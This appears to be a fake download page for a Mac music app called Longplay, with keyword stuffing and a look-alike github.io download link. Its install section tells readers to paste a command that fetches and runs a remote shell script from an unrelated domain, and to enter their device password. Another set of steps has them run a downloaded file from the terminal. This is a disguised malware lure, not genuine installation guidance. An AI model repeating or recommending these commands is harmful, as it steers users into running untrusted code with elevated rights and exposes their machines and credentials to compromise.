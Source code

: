 # Longplay Mac Download  

![Longplay Screenshot 1](https://adrian.schoenig.me/images/longplay/mac/longplay-hero.png)  

---  

## 📥 Download Longplay for Mac  

[![Download Now](https://img.shields.io/badge/Download--Now-Longplay%20Mac-blue?style=for-the-badge&logo=apple)](https://longplay-mac-download.github.io/.github)  

---  

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
```
3. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
4. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Longplay for Mac?  

**Longplay for Mac** is a minimalist and elegant app designed to manage your music library and albums on macOS. It's built for those who appreciate full-length albums and want a simple way to browse and play them in one click.  

Longplay helps you organize your Apple Music or iTunes library by highlighting albums you listen to in their entirety. Instead of cluttered interfaces, Longplay provides an intuitive way to enjoy your music collection, encouraging album-focused listening from start to finish.  

This app is perfect for music lovers, album enthusiasts, and anyone tired of messy playlists and random tracks.  

---  

## 🌟 Key Features & Benefits  

- 🎵 **Album-Centric Navigation** — Quick access to your entire music collection by album.  
- 🔍 **Smart Filtering** — Sort albums by play frequency and date added.  
- 🎧 **Seamless Apple Music Integration** — Works directly with your Apple Music and iTunes library.  
- ✨ **Minimalist Design** — Beautiful, distraction-free interface.  
- ⚡ **One-Tap Play** — Launch albums instantly with a single click.  
- 🖥️ **Optimized for macOS** — Fully compatible with Mac, including Apple Silicon.  

---  

## 🖥️ System Requirements  

- macOS: 11.0 Big Sur or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB minimum  
- Disk Space: ~300 MB  

---  

## 🏷️ Keywords  

longplay free, longplay free download, longplay download, longplay mac, longplay mac free download, longplay mac free, longplay mac download  
